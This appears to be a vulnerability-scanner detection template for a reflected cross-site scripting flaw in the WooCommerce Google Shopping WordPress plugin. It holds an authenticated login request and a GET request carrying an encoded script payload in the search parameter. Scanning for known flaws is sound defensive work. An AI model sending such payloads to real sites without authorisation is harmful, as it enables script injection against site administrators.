 **Type - word**

- words
  1. Index of /
  2. .txt
  3. wpdm-cache
- condition - and
- part - body

**Type - status**

- status
  1. 200

---

# WordPress WooCommerce Google Shopping \< 1.2.4 - Cross-Site Scripting

## Description

- WordPress WooCommerce Google Shopping \< 1.2.4 is susceptible to cross-site scripting because the plugin does not sanitize or escape the search GET parameter before outputting it back in the page and executing it in a logged in admin context.
- severity - high
- tags - wp-plugin,xss,authenticated,woocommerce,wpscan,wordpress

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=elex-product-feed-manage&search=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```

### Matchers
